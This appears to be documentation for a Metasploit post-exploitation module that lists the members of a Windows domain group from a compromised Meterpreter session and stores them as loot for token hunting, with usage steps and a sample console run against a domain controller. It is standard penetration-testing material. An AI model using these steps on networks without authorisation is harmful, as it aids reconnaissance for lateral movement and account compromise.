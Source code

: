 ## Vulnerable Application

This module extracts user accounts from the specified domain group
and stores the results in the loot. It will also verify if session
account is in the group. Data is stored in loot in a format that
is compatible with the `token_hunter` plugin. This module must be
run on a session running as a domain user.

## Verification Steps

1. Start msfconsole
1. Get a session on a Windows target which is joined to a domain
1. Do: `use post/windows/gather/enum_domain_group_users`
1. Do: `set session [#]`
1. Do: `set group [group]`
1. Do: `run`
1. You should get the domain members for the group.

## Options

### Group

The group to enumerate.

## Scenarios

### Windows 2012 DC

```
msf post(windows/gather/enum_domain_group_users) > use post/windows/gather/enum_domain_group_users 
msf post(windows/gather/enum_domain_group_users) > sessions -i 6
[*] Starting interaction with 6...

meterpreter > sysinfo
Computer        : DC1
OS              : Windows 2012 (6.2 Build 9200).
Architecture    : x64
System Language : en_US
Domain          : hoodiecola
Logged On Users : 4
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 6...
msf post(windows/gather/enum_domain_group_users) > set session 6
session => 6
msf post(windows/gather/enum_domain_group_users) > set group finance
group => finance
msf post(windows/gather/enum_domain_group_users) > run

[*] Running module against DC1
[-] Post aborted due to failure: unknown: No members found for 'hoodiecola\finance' group.
[*] Post module execution completed
msf post(windows/gather/enum_domain_group_users) > set group "quality control"
group => quality control
msf post(windows/gather/enum_domain_group_users) > run

[*] Running module against DC1 (1.1.1.1)
[*] Found 3 users in 'hoodiecola\quality control' group.
[*]     hoodiecola\rachel
[*]     hoodiecola\lisa
[*]     hoodiecola\charles
[*] Current session running as NT AUTHORITY\SYSTEM is not a member of quality control
[+] User list stored in /root/.msf4/loot/20201011184812_default_1.1.1.1_domain.group.mem_339475.txt
[*] Post module execution completed
```
